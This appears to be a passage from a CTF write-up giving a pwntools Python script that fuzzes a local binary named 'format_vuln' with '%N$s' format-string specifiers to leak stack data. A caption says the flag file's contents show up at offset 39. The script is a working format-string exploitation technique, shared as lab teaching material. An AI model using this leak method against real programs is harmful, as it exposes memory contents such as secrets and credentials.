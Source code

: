 fuzz.py:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./format_vuln', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        # Receive the response
        result = p.recvuntil(b'> ')
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```

Result:

<figure><img src="../.gitbook/assets/image (123).png" alt=""><figcaption><p>We are able to see the contents of flag.txt in the 39th element</p></figcaption></figure>
